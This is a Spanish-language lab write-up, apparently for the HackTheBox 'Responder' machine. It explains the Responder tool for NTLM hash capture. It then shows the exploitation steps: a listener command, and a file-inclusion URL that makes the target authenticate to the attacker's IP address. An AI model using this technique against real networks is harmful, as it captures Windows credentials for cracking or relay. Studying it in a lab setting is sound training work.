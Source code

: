 La utilidad **Responder** en Linux es una herramienta usada en **pentesting de redes Windows**, especialmente en ataques a protocolos de red que usan **autenticación NTLM**.
**Responder** actúa como un servidor malicioso en la red local. Su objetivo es **capturar credenciales NTLM** enviadas automáticamente por máquinas Windows vulnerables que intentan resolver nombres por la red.

---

### 📌 Usos principales:

1. **Capturar hashes NTLMv1/NTLMv2** para crackeo offline
2. **Responder a peticiones de protocolos como:**
    - LLMNR (Link-Local Multicast Name Resolution)
    - NBT-NS (NetBIOS Name Service)
    - MDNS
    - WPAD (Web Proxy Auto Discovery)
3. **Realizar ataques de spoofing o relay**, como:
    - Servir archivos falsos por SMB
    - Redirigir tráfico web
    - Montar ataques tipo _Man-in-the-Middle_

-------
# Explotacion

Donde dice el idioma arriba al aderecha que aparece el boton *EN* vamos a cambiar de idioma a por ejemplo *FR*
![[Responder10.png]]
Vemos que con otro idioma nos redirecciona a un link: http://unika.htb/index.php?page=french.html
![[Responder9.png]]

#### Escucha con [[Herramientas-Comandos/NTLM/Responder|Responder]]
```shell
responder -I tun0
```
*Parametro:*
	`-I` Interfaz de red que la podemos chequear con el parametro [[ifconfig]]

Estando en escucha con el responder entramos a este link `http://unika.htb/?page=//10.10.16.16/test` para que envie una peition y interceptarla (El archivo test no existe)
![[Responder11.png]]

El [[Herramientas-Comandos/NTLM/Responder|Responder]] va a interceptar esta informacion
![[Responder12.png]]

El resultado se va a almacenar en el archivo ubicado en el directorio `/usr/share/responder/logs`